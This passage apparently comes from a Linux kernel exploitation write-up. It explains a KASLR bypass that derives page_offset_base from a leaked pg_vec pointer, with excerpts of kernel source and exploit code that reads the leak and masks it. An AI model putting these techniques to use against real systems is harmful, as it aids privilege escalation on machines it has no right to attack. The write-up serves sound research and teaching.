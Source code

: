 The Linux kernel has a [memory region](https://elixir.bootlin.com/linux/v6.13/source/Documentation/arch/x86/x86_64/mm.rst#L57), sometimes referred to as physmap. This region starts at `page_offset_base` and provides a direct mapping of the entire physical memory:
```
ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```
Since the pointers in `pg_vec` point to this region, we can calculate `page_offset_base` from one of them. When KASLR is enabled, the value of `page_offset_base` is randomized in `kernel_randomize_memory`, and becomes `0xffff888000000000` plus a random offset. This random offset is always a multiple of `PUD_SIZE`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/arch/x86/include/asm/pgtable_64_types.h
#define PUD_SHIFT	30
#define PUD_SIZE	(_AC(1, UL) << PUD_SHIFT)
#define PUD_MASK	(~(PUD_SIZE - 1))
```
```c
// https://elixir.bootlin.com/linux/v6.13/source/arch/x86/mm/kaslr.c#L142-L146
void __init kernel_randomize_memory(void)
{
    ...
        entropy = remain_entropy / (ARRAY_SIZE(kaslr_regions) - i);
        prandom_bytes_state(&rand_state, &rand, sizeof(rand));
        entropy = (rand % (entropy + 1)) & PUD_MASK;
        vaddr += entropy;
        *kaslr_regions[i].base = vaddr;
```
`PUD_SIZE` is 1 GB, and since our system has less than 1 GB of physical memory, we can calcurate `page_offset_base` by simply applying a bitwise AND with `PUD_MASK` to the leaked pointer:
```c
puts("[*] Calculating page_offset_base from pg_vec[0].buffer");
unsigned long addr_page_offset_base;
obj_read((char *)&addr_page_offset_base, sizeof(addr_page_offset_base));
addr_page_offset_base &= PUD_MASK;
printf("[+] addr_page_offset_base = %#lx\n", addr_page_offset_base);
```
Next, we locate the kernel image in physmap. When KASLR is enabled, the physical address where the decompressed kernel is loaded is randomized in `choose_random_location` and becomes the base address of an available physical memory region plus a random value multiplied by `CONFIG_PHYSICAL_ALIGN`:
```c
// https://elixir.bootlin.com/linux/v6.13/source/arch/x86/boot/compressed/kaslr.c#L850
void choose_random_location(unsigned long input,
                unsigned long input_size,
                unsigned long *output,
                unsigned long output_size,
                unsigned long *virt_addr)
{
    ...
    random_addr = find_random_phys_addr(min_addr, output_size);
```
```c
// https://elixir.bootlin.com/linux/v6.13/source/arch/x86/boot/compressed/kaslr.c#L785
static unsigned long find_random_phys_addr(unsigned long minimum,
                    unsigned long image_size)
{
    ...
    phys_addr = slots_fetch_random();
```
```c
// https://elixir.bootlin.com/linux/v6.13/source/arch/x86/boot/compressed/kaslr.c#L547
static u64 slots_fetch_random(void)
{
    ...
            return slot_areas[i].addr + ((u64)slot * CONFIG_PHYSICAL_ALIGN);
```